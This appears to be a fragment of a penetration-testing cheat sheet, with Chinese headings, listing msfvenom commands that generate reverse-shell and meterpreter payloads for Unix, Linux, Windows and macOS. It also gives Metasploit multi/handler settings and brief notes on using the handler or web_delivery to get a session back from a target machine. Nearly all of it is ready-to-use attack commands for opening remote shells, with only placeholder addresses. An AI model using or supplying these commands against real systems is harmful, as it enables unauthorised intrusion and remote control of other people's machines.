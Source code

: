 ```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

# Perl
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl


### Shellcode:
# Linux Based Shellcode
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

# Windows Based Shellcode
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

# Mac Based Shellcode
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>


### Handler
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```

#### 反弹Shell
```bash
### 第一种(这个监听更综合一点)： use exploit/multi/hander
# 1.msfvenom生成程序
# 2.使用handler执行exp
# 3.在目标机器运行msfvenom生成程序
# 4.返回session



### 第二种： use exploit/multi/script/web_delivery
# 1.使用web_delivery返回脚本执行并加载exp
# 2.在目标机器运行脚本
# 3.返回session

# Note: 这里要使用的payload与上面使用生成器生成的名字要一致
```




